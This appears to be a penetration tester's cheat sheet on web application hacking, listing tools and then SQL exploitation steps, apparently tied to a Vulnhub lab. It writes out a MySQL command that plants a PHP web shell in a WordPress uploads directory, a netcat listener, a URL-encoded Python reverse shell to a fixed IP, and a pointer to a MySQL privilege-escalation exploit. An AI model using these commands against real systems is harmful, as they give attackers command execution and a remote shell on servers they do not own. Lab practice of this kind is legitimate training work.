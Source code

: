 •	Refer to the Web APP hacking hackers handbook inside kindle

•	Refer to your web app hackers workbook

#### WEB HACKERS TOOKIT

•	WEBBROWSERS

•	Tamper Data

•	Live HTTP Headers

•	Developers TOOLS

•	COOKIE Watchers

•	Vulnerability scanners

•	Refer to the Web APP hacking hackers handbook inside kindle

### SQL Exploitation

REF: SQL Injection attacks and defenses

#### Try and upload a PHP shell through mysql if if you get root

```
Mysql > Select "<?php echo shell_exec(*dollar-sign*_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```
Once done, we can navigate to https://*IPAddress*/blogblog/wp-content/uploads/, and we should see our php shell in there.

Once inside the shell, let’s check to see if it works by appending ?cmd=ifconfig to the end of the url. This should give us a 

dirty output - but will let us know if the shell works properly.
 
WEB Shell to shell

Nc –lvp 443

```
Shell.php?cmd=python%20-c%20'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.7",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### mysql exploitation

https://g0blin.co.uk/lord-of-the-root-vulnhub-writeup/

If mysql is runing as root so i tried MySQL 4.x/5.0 - User-Defined Function Local Privilege Escalation Exploit

it is exploit that gets mysql to run system commands

cat /usr/share/exploitdb/platforms/linux/local/1518.c
